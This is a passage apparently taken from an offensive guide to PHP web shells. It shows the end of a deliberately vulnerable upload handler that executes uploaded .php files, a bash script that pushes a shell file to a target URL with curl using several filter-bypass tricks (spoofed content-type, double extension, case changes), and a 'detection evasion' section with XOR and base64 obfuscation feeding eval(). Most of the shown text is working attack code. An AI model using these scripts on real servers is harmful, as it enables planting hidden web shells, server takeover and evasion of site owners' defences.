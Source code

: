 ```php
        // Test execution
        if(preg_match('/\.php$/i', $filename)) {
            include($target_file);
        }
    }
}
?>

<form method="post" enctype="multipart/form-data">
<input type="file" name="file">
<input type="submit" value="Upload">
</form>
```

### 6.2 cURL Upload Script
```bash
#!/bin/bash
# upload_shell.sh

TARGET="$1"
SHELL_FILE="$2"

if [ -z "$TARGET" ] || [ -z "$SHELL_FILE" ]; then
    echo "Usage: $0 <target_url> <shell_file>"
    exit 1
fi

# Try different upload techniques
echo "[*] Testing file upload to $TARGET"

# Method 1: Direct upload
curl -F "file=@$SHELL_FILE" "$TARGET" 

# Method 2: With spoofed content-type
curl -F "file=@$SHELL_FILE" -H "Content-Type: image/jpeg" "$TARGET"

# Method 3: Double extension
cp "$SHELL_FILE" "shell.php.jpg"
curl -F "file=@shell.php.jpg" "$TARGET"

# Method 4: Case manipulation  
cp "$SHELL_FILE" "shell.PHp"
curl -F "file=@shell.PHp" "$TARGET"
```

## 7. DETECTION EVASION

### 7.1 Obfuscation Techniques
```php
<?php
// XOR obfuscation
$key = 'secret';
$payload = base64_decode('encoded_shell_here');
$output = '';
for($i = 0; $i < strlen($payload); $i++) {
    $output .= $payload[$i] ^ $key[$i % strlen($key)];
}
eval($output);
?>

<?php
// String concatenation
```